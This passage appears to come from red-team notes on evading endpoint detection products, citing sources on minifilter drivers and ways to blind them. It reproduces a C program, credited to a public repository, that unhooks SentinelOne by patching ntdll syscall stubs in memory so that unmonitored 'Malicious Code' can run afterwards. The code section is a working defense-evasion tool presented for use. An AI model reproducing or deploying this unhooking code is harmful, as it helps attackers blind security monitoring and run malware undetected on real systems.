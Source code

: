 Source: [Evading EDR: The Definitive Guide to Defeating Endpoint Detection Systems](https://www.amazon.de/Evading-EDR-Definitive-Defeating-Detection/dp/1718503342)

Some more altitudes and good descriptions can be found on learn microsoft in the article [Load order groups and altitudes for minifilter drivers](https://learn.microsoft.com/en-us/windows-hardware/drivers/ifs/load-order-groups-and-altitudes-for-minifilter-drivers)

For going further here we need to learn how to develop with mini filters. A great entry is the [mini filter driver framework](https://github.com/EaseFilterSDK/mini-filter-driver-framework).

A good approach to abuse a minifilter can be found in this article from [tier zero security in order to blind EDR](https://tierzerosecurity.co.nz/2024/03/27/blind-edr.html)

### Unhooking EDRs 
A good way to bypass EDRs is to unhook the EDRs hook. A good way to do this can be found for example in Mr-Uni1K0d3r's RedTeamCCode Repository on GitHub ([Source](https://github.com/Mr-Un1k0d3r/RedTeamCCode/blob/main/unhook_sentinelone_64.c) of the code below). Example to unhook SentinelOne:

```c
#include <Windows.h>
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

VOID PatchHook(CHAR* address, unsigned char id, char high);

VOID CleanUp() {
    HANDLE hDll = LoadLibrary("ntdll.dll");

    FARPROC NtProtectVirtualMemory = GetProcAddress(hDll, "NtProtectVirtualMemory");

    PatchHook(NtProtectVirtualMemory, 0x50, 0x00);  // unhooking first since we are going to need it to unhook APIs

    CloseHandle(hDll);
}

VOID PatchHook(CHAR* address, unsigned char id, char high) {
    DWORD dwSize = 11;
    CHAR* patch_address = address;
    //\x4c\x8b\xd1\xb8\xXX\xHH\x00\x00\x0f\x05\xc3
    CHAR patch[dwSize];
    sprintf(patch, "\x4c\x8b\xd1\xb8%c%c%c%c\x0f\x05\xc3", id, high, high ^ high, high ^ high);

    DWORD dwOld;
    VirtualProtect(patch_address, dwSize, PAGE_EXECUTE_READWRITE, &dwOld);
    memcpy(patch_address, patch, dwSize);
}

int main (int argc, char **argv) {
    CleanUp();

    // No More Hook From SentinelOne
    // Malicious Code

    return 0;
}
```
